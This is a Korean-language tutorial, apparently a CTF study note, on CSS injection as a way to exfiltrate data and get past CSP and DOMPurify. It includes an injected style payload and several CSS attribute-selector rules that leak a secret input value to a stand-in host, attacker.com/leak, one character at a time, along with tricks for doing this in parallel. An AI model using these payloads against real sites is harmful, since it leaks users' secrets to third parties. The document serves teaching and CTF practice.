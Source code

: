 ## CSS Injection (CSS-based exfiltration attack)
\*\*CSS Injection(스타일 주입)\*\*은 공격자가 **웹페이지의 CSS 스타일을 조작하거나 새로운 CSS 코드를 삽입하는 공격 기법**입니다.

### 주요 목적:

* 사이트의 외형을 왜곡
* 민감한 정보를 노출 (예: 입력값 훔치기)
* 사용자 인터페이스(UI) 혼란
* 클릭재킹(clickjacking) 등 다른 공격을 위한 기반

---

## ✅ CSS Injection이 발생하는 조건

CSS Injection은 보통 **서버나 클라이언트가 사용자 입력을 필터링하지 않거나 부적절하게 처리**할 때 발생합니다.

예시:

```html
<!-- 사용자 입력값이 직접 style 속성이나 style 태그 내에 삽입되는 경우 -->
<div style="color: {{ user_input }};">Welcome</div>
```

만약 사용자가 다음과 같이 입력했다면:

```
red; background-image: url(javascript:alert(1));
```

결과:

```html
<div style="color: red; background-image: url(javascript:alert(1));">Welcome</div>
```

> 대부분 브라우저는 `url(javascript:...)`을 차단하지만, 일부 구버전에서는 작동하기도 했습니다.

---

## ✅ CSP와 DOMPurify에 대한 우회

보통 보안 위험은 \*\*JavaScript 실행(XSS)\*\*을 생각하지만, 최근 보안 정책(CSP, DOMPurify 등) 때문에 **JavaScript가 막히는 경우**가 많습니다. 이때 **CSS만으로도 의도치 않은 동작**을 유도할 수 있습니다.

### ◾ CSP (Content Security Policy)

* CSP는 페이지 내에서 어떤 리소스(JavaScript, 이미지, 스타일 등)를 불러올 수 있는지를 제한하는 **브라우저 보안 정책**입니다.
* 예: `Content-Security-Policy: script-src 'self'` → 외부 JS 차단
* 예: `default-src 'none'` → 외부 요청 차단
* 예: `style-src 'unsafe-inline'` → <style> 태그 사용 가능
<img width="1182" height="1540" alt="image" src="https://github.com/user-attachments/assets/8f4c2621-d999-4bf7-badf-efbf29e375c4" />


### ◾ DOMPurify

* DOMPurify는 HTML을 \*\*sanitize(정화)\*\*해서 위험한 태그 및 속성 (예: `<script>`, `onerror=...`)을 제거합니다.

### 💡 그러나 DOMPurify는 CSS까지는 완벽히 필터링하지 않음

* 즉, `<style>`이나 `style` 속성 내에 삽입된 **정상적인 CSS 구문**은 살릴 수 있음
* 이 점을 이용해 악의적인 CSS만으로도 공격 가능

---

## 🧠 CSS Injection 구문

| 선택자 구문          | 설명                                                                            |
| --------------- | ----------------------------------------------------------------------------- |
| `[attr]`        | `attr`이라는 이름의 \*\*속성(attribute)\*\*을 가진 모든 요소를 선택                             |
| `[attr=value]`  | `attr`의 값이 **정확히 `value`인 요소**를 선택                                            |
| `[attr~=value]` | `attr`의 값이 공백으로 구분된 여러 값 중에서 **`value`가 포함된 경우** 선택 (ex: class="btn primary") |
| `[attr^=value]` | `attr`의 값이 **`value`로 시작하는(접두사)** 요소를 선택                                      |
| `[attr$=value]` | `attr`의 값이 **`value`로 끝나는(접미사)** 요소를 선택                                       |
| `[attr*=value]` | `attr`의 값에 **`value`라는 문자열이 포함**되어 있으면 선택 (위치 상관 없음)                          |


---

## 😈 CSS를 이용해 정보를 훔친다고?

CSS 자체는 **정보를 읽는 기능은 없지만**, **스타일 조건에 따라 외부 요청을 보낼 수는 있어요.**

예를 들어:

```html
input[name="secret"][value^="a"] {
  background: url("https://attacker.com/leak?q=a");
}
```

위 코드는:

* `name="secret"`인 `<input>` 태그가 있고
* 그 `value` 값이 **'a'로 시작한다면**
* **백그라운드 이미지 요청을 보냄** → `https://attacker.com/leak?q=a`

이렇게 조건이 참일 때만 외부로 요청이 나가기 때문에,
공격자는 해당 요청을 통해 **데이터가 a로 시작하는지 아닌지를 알 수 있는 거죠.**

---

## 🔍 구체적인 예시

웹 페이지에 이런 input이 있다고 가정합시다:

```html
<input name="secret" value="dawn_ctf{secret_flag}">
```

공격자가 삽입한 CSS:

```css
input[name="secret"][value^="d"] {
  background: url("https://attacker.com/leak?q=d");
}
```

서버는 background 이미지를 불러오려고 `https://attacker.com/leak?q=d`에 요청을 보냅니다.

그럼 공격자는 로그를 보고:

> "오, d로 시작하는구나!"

---

## ⏱️ 그런데 이게 비효율적인 이유는?

### 고전 방식: `[value^=문자열]`만 사용

* 예: 첫 번째 문자가 `a`, `b`, `c` ... `z` 중 어떤 건지 확인 → 26번 요청
* 두 번째 문자 확인 → 또 26번 요청
* 길이 20짜리 문자열이면 26 × 20 = **520번 요청**

---

## 🧠 더 똑똑한 방법: 글의 요점 정리

### ✅ 1. 접미사 선택자 (`[attr$=value]`) 도 같이 쓰기

* 예를 들어 문자열이 `"da"`라면:

  * `[value^="d"]` → d로 **시작**
  * `[value$="a"]` → a로 **끝남**
* 두 조건을 모두 만족해야 하므로 **정보 유출이 더 빠르게 가능**

```css
input[name="secret"][value^="d"][value$="a"] {
  background: url("https://attacker.com/leak?q=da");
}
```

### ✅ 2. 병렬 요청

하나의 CSS 파일에 수십 개 선택자를 넣어서 **동시에 여러 조건을 테스트** 가능

```css
<style>
input[name="secret"][value^="da"] { background: url(https://attacker.com/leak?q=da); }
input[name="secret"][value^="db"] { background: url(https://attacker.com/leak?q=db); }
input[name="secret"][value^="dc"] { background: url(https://attacker.com/leak?q=dc); }
/* ... */
</style>
```

* 이렇게 여러 줄 한꺼번에 넣으면
* 사용자가 웹 페이지를 열었을 때, 조건이 일치하는 **딱 한 개의 요청**만 서버로 감
* 공격자는 어떤 요청이 갔는지를 보고 **정확한 값**을 추론

---

